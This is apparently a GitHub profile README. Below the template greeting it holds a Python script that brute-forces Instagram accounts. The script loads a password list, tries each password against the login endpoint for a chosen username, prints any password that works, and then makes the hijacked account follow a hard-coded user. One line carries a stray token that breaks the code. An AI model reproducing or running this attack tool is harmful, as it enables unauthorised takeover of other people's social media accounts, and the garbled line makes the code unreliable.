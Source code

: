 - 👋 Hi, I’m @Baris0718838272
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Baris0718838272/Baris0718838272 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import requests
import json
import time
import os

filename = 'pass.txt'
if os.path.isfile(filename):
	with open(filename) as f:
	    passwords = f.read().splitlines()
	    if (len(passwords) > 0):
	    	print ('%s Passwords loads successfully' % len(passwords))
else:
	print ('Please create passwords file (pass.txt)')
	exit()




def userExists(username): 
	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) nursel_priw

	if (r.status_code == 404):
		print ('User not found')
		return False
	elif (r.status_code == 200):
		followdata = json.loads(r.text)
		fUserID = followdata['user']['id']
		return {'username':username,'id':fUserID}


def Login(username,password):
	sess = requests.Session()
	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
	sess.headers.update({
		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
		'x-instagram-ajax':'1',
		'X-Requested-With': 'XMLHttpRequest',
		'origin': 'https://www.instagram.com',
		'ContentType' : 'application/x-www-form-urlencoded',
		'Connection': 'keep-alive',
		'Accept': '*/*',
		'Referer': 'https://www.instagram.com',
		'authority': 'www.instagram.com',
		'Host' : 'www.instagram.com',
		'Accept-Language' : 'ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4',
		'Accept-Encoding' : 'gzip, deflate'
	})

	#first time -> to get csrftoken
	r = sess.get('https://www.instagram.com/') 
	sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

	data = {'username':username, 'password':password}
	r = sess.post('https://www.instagram.com/accounts/login/ajax/', data=data, allow_redirects=True)
	token = r.cookies.get_dict()['csrftoken']
	sess.headers.update({'X-CSRFToken' : token})
	#parse response
	data = json.loads(r.text)
	if (data['status'] == 'fail'):
		print (data['message'])
		return False
	
	if (data['authenticated'] == True):
		return sess #if we want to keep use session
	else:
		print ('Password incorrect [%s]' % password)
		return False



def follow(sess, username):
	username = userExists(username)
	if (username == False):
		return	
	else:
		userID = username['id']
		followReq = sess.post('https://www.instagram.com/web/friendships/%s/follow/' % userID)
		print (followReq.text)


username = str(input('Please enter a username: '))
username = userExists(username)
if (username == False):
	exit()
else:
	username = username['username']



delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 


for i in range(len(passwords)):
	password = passwords[i]
	sess = Login(username,password)
	if (sess):
		print ('Login success %s' % [username,password])

		#because i am cool
		follow(sess,'avr_amit')

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		an = str(input('Type y/n to exit: '))
		if (an == 'y'):
			exit()
		else:
			continue
		
